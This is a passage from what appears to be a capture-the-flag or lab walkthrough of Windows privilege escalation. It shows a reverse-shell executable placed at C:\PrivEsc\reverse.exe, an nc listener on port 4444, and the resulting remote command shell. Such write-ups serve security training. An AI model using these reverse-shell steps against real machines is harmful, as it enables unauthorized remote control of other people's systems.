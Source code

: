 ![](revshell-upload.png)

***NOTE***: To spare you some trouble, if you want to paste something from our clipboard, the shortcut for that is `Shift+Ins` for windows machines. 


Upon executing the above command, the file will be copied to `C:\PrivEsc\reverse.exe`. We can now start a listener using `nc` and run the executable on the target machine to receive a connection.

On our machine:
```console
$ sudo nc -nvlp 4444
```

On target machine:
```console
C:\Users\user>C:\PrivEsc\reverse.exe
```

Result: (our machine)
```console
$ nc -nvlp 4444 
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from MACHINE_IP.
Ncat: Connection from MACHINE_IP:49853.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\user>
```
